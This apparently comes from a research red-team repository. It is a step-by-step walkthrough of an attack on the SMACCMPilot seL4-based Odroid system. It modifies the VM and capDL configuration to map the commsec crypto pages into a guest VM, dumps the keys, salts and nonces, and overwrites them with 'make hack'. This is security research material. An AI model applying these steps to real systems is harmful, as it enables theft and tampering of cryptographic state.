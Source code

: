 These notes describe how the attack is constructed


Modifying the VM
================

The goal is to overwrite the nonce and salt for the encryption and
decryption functions. We accomplish this by mapping the relevant pages
of memory into the memory space of the VM. First we modify the VM to
tell it that we are inserting two extra pages to be loaded at a
specific memory address (we picked `0x8000000` somewhat arbitrarily).
To tell the VM this, we modify the file
`apps/smaccmpilot/components/camera_vm/camera_vm.camkes`. Find the two
lines at the bottom that look like this:

```
vm.num_extra_frame_caps = 0;
vm.extra_frame_map_address = 0;
```

and change them to

```
vm.num_extra_frame_caps = 2;
vm.extra_frame_map_address = 0x80000000;
```

Then recompile the Ordoid image.


Modifying the capDL file
========================

First we need to locate the memory where encryption information is
stored. The relevant data is in `build/arm/exynos5/smaccmpilot` in the
binaries:

  - `commsecDecodeState_inst_group_bin`
  - `commsecEncodeState_inst_group_bin`

We start by looking at the memory for the decoder:
```
arm-none-eabi-objdump -Dlx commsecDecodeState_inst_group_bin
```

The crypto information is stored in the C variable
`ctx_dl_2_global_gec_sym_key_dec` which we can locate in the symbol
table from objdump:

```
0022fa58 l     O .bss   00001128 ctx_dl_2_global_gec_sym_key_dec
```

This means the variable will be at the virtual memory address
`0x0022fa58`. That means it's at offset `0xa58` in page `0x22f`. But,
this variable points to a rather large structure and it turns out the
information we want will actually spill on to the next page. So we
want to map page `0x230` into the VM memory space.

To do this we modify the `smaccmpilot.cdl` file located in the same
directory as the binaries. Here we find the page table for
`commsecDecodeState_inst_group_bin`:

```
pd_commsecDecodeState_inst_group_bin {
0x0: pt_commsecDecodeState_inst_group_bin_0
0x1: pt_commsecDecodeState_inst_group_bin_1
}
```

Each page table represents 2mb so the page table at 0x1 has entries
for addresses in the 0x2000000 - 0x4000000 range which covers the
address we are interested in (0x2300000). In particular, we want to
find the frame mapped at `0x30` in that page table:

```
pt_commsecDecodeState_inst_group_bin_1 {
...
0x30: frame_commsecDecodeState_inst_group_bin_192 (RWX)
...
}
```

We need to insert this frame into the cnode for the vm. We need to
leave one empty cnode and then place it in the next available slot:

```
cnode_vm {
...
0x133: vm_irq_109
0x134: vm_irq_103
0x136: frame_commsecDecodeState_inst_group_bin_192 (RWX)
```

We now repeat this process for commsecEncodeState_inst_group_bin:

```
arm-none-eabi-objdump -Dlx commsecEncodeState_inst_group_bin
```

The relevant variable is `ctx_dl_global_gec_sym_key_enc` which we can
find in the symbol table:

```
0022ea58 l     O .bss   00001128 ctx_dl_global_gec_sym_key_enc
```

The virtual memory address is `0x22ea58` which is page `0x22e` with
offset `0xa58`. Again the information we actually want will spill onto
the next page at `0x22f`. Looking at the page table:

```
pd_commsecEncodeState_inst_group_bin {
0x0: pt_commsecEncodeState_inst_group_bin_0
0x1: pt_commsecEncodeState_inst_group_bin_1
}
```

We see that we want offset `0x2f` in `pt_commsecEncodeState_inst_group_bin_1` which is:

```
pt_commsecEncodeState_inst_group_bin_1 {
...
0x2f: frame_commsecEncodeState_inst_group_bin_217 (RWX)
...
}
```

We then add this to the VM's cnode:

```
cnode_vm {
...
0x133: vm_irq_109
0x134: vm_irq_103
0x136: frame_commsecDecodeState_inst_group_bin_192 (RWX)
0x137: frame_commsecEncodeState_inst_group_bin_217 (RWX)
```

Now we want to recompile with this new cdl file. To force the build
tool to use it, we need to remove the existing C file that is
generated from this cdl file:

```
rm build/arm/exynos5/capdl-loader-experimental/src/capdl_spec.c
```

Now build the Odroid image again and ensure that our modifications to
the cdl file have not been overwritten by the build tool. If they
have, then make them again, delete the `capdl_spec.c` file, and try
again.


Finding the key, salt, and nonce in the VM
==========================================

Now we can boot the Odroid and try to locate the key, salt, and nonce
for both the encoder and decoder. Within the VM, the pages we mapped
in are available at the memory range 0x80000000 - 0x8002000. Ihor has
provided the rw_mem.c tool in this repository which we can use to read
and modify memory.

First we can locate the keys since we know exactly what they are. To
read the memory we mapped in, do:

```
make read
```

And searching for the keys finds

```
0x80000aa0: 0xfe 0x45 0x2e 0x54 0x20 0xbf 0xb4 0x21 0x18 0x17 0x16 0x15 0x14 0x13 0x12 0x11 
0x80000ab0: 0x10 0x0f 0x0e 0x0d 0x0c 0x0b 0x0a 0x09 0x32 0x70 0x17 0xeb 0x26 0x63 0x05 0xfa
...
0x80001aa0: 0x59 0x71 0x2b 0xaf 0xcf 0xf2 0xab 0x24 0x01 0x02 0x03 0x04 0x05 0x06 0x07 0x08 
0x80001ab0: 0x09 0x0a 0x0b 0x0c 0x0d 0x0e 0x0f 0x10 0xab 0x74 0xc9 0xd3 0xae 0x72 0xce 0xdb
```

Thus the keys are at 0x80000aa8 and 0x80001aa8. A make target is
available to read these keys:

```
root@odroid-jessie:~/hack# make read-keys
./rw_mem -a 0x80000aa8 -s 16
0x80000aa8: 0x18 0x17 0x16 0x15 0x14 0x13 0x12 0x11 0x10 0x0f 0x0e 0x0d 0x0c 0x0b 0x0a 0x09 
./rw_mem -a 0x80001aa8 -s 16
0x80001aa8: 0x01 0x02 0x03 0x04 0x05 0x06 0x07 0x08 0x09 0x0a 0x0b 0x0c 0x0d 0x0e 0x0f 0x10
```

We can also find the salts by searching for them directly:

```
0x80000b60: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x08 0x07 0x06 0x05
0x80000b70: 0x04 0x03 0x02 0x01 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
...
0x80001b60: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x11 0x12 0x13 0x14
0x80001b70: 0x15 0x16 0x17 0x18 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
```

Thus the salts are at 0x80000b6c and 0x80001b6c. A make target is
available to read these salts:

```
root@odroid-jessie:~/hack# make read-salts
./rw_mem -a 0x80000b6c -s 8
0x80000b6c: 0x08 0x07 0x06 0x05 0x04 0x03 0x02 0x01 
./rw_mem -a 0x80001b6c -s 8
0x80001b6c: 0x11 0x12 0x13 0x14 0x15 0x16 0x17 0x18 
```

Finding the nonces is tricker because they are initially all zero so
we can't just search for them. Instead we save the results of `make
read` over several requests to the odroid and diff the resulting files
to find the nonce. After doing 283 requests we can find the nonces here:


```
0x80000b70: 0x04 0x03 0x02 0x01 0x00 0x00 0x00 0x00 0x00 0x1b 0x01 0x00 0x00 0x00 0x00 0x00
0x80000b80: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
...
0x80001b70: 0x15 0x16 0x17 0x18 0x00 0x00 0x00 0x00 0x1b 0x01 0x00 0x00 0x00 0x00 0x00 0x00
0x80001b80: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00
```

The nonce is a uint64 stored in little endian format. The nonces are
at 0x80000b79 and 0x80001b78. A make target is available to read these
nonces:

```
root@odroid-jessie:~/hack# make read-nonces 
./rw_mem -a 0x80000b79 -s 8
0x80000b79: 0x1b 0x01 0x00 0x00 0x00 0x00 0x00 0x00 
./rw_mem -a 0x80001b79 -s 8
0x80001b78: 0x1b 0x01 0x00 0x00 0x00 0x00 0x00 0x00
```

Now the attack simply overwrites the salts with the attacker's salts
(all zeros) and resets the nonces to zero so that the attacker can
syncronize with the Odroid. A make target is available to do these
overwrites:

```
root@odroid-jessie:~/hack# make hack
./rw_mem -a 0x80000b6c -s 8 -w -h 0x00
./rw_mem -a 0x80001b6c -s 8 -w -h 0x00
./rw_mem -a 0x80000b79 -s 8 -w -h 0x00
./rw_mem -a 0x80001b79 -s 8 -w -h 0x00
```

Due to caching this often doesn't actually work. The workaround is to
run `make clean hack`. The recompiling seems to resolve the cache
issues.
